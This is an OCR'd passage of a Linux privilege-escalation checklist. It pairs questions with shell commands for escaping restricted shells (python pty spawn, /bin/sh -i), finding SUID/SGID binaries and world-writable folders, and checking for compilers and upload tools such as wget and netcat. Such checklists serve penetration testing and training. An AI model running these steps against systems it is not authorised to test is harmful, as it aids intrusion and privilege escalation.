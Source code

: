     ls -alh /var/log/proftpd/
    ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp
Note: http://www.thegeekstuff.com/2011/08/linux-var-log-files/

If commands are limited, you break out of the "jail" shell?

    python -c 'import pty;pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')
    /bin/sh -i

How are file-systems mounted?

    mount
    df -h

Are there any unmounted file-systems?

    cat /etc/fstab

What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID

    find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
    find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
    find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

    find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
    for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null

Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm

    find / -writable -type d 2>/dev/null      # world-writeable folders
    find / -perm -222 -type d 2>/dev/null     # world-writeable folders
    find / -perm -o w -type d 2>/dev/null     # world-writeable folders

    find / -perm -o x -type d 2>/dev/null     # world-executable folders

    find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

Any "problem" files? Word-writeable, "nobody" files

    find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
    find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

###Preparation & Finding Exploit Code

What development tools/languages are installed/supported?

    find / -name perl*
    find / -name python*
    find / -name gcc*
    find / -name cc

How can files be uploaded?

    find / -name wget
    find / -name nc*
    find / -name netcat*
    find / -name tftp*
    find / -name ftp
